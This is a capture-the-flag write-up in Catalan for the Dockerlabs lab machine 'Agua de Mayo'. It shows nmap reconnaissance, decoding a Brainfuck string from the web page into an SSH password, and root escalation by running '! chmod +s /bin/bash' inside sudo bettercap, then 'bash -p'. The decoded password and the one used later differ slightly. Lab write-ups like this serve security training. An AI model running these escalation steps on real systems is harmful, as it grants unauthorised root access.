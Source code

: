 # Agua de Mayo

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:18

## Reconeixement

### NMAP

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 30.png>)

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![image.png](<imagenes/image 31.png>)

```bash
sudo nmap -p80 --script=http-enum 172.17.0.2
```

![image.png](<imagenes/image 32.png>)

Directori : /images/

Trobem una imatge :

Agua_ssh

Provem de veure si conté dades:

```bash
steghide info agua_ssh.jpg
Demana password
```

![image.png](<imagenes/image 33.png>)

Revisem la web per veure si trobem algo al codi:

```bash
curl -s -X GET [http://172.17.0.2/](http://172.17.0.2/)
```

Ens troba una última linea:

++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.

Busquem un decode :
Codi BrainFuck

Decodifiquem i surt:

bebeaguaqueessano

Conectem per SSH amb usuari "Agua" de la imatge i el password de la web "bebeaguaqueesmassano"

```bash
ssh [agua@172.17.0.2](mailto:agua@172.17.0.2)
```

![image.png](<imagenes/image 34.png>)

![image.png](<imagenes/image 35.png>)

Podem executar "bettercap" sense password i com a root

```bash
sudo bettercap
```

![image.png](<imagenes/image 36.png>)

Veiem que es poden executar instruccions amb ! cmd

Veiem que ja som root

![image.png](<imagenes/image 37.png>)

Per mirar de tenir una shell mes operativa done permis al bash :

```
! chmod +s /bin/bash

```

al sortir de bettercap provem la shell

bin/bash -p

![image.png](<imagenes/image 38.png>)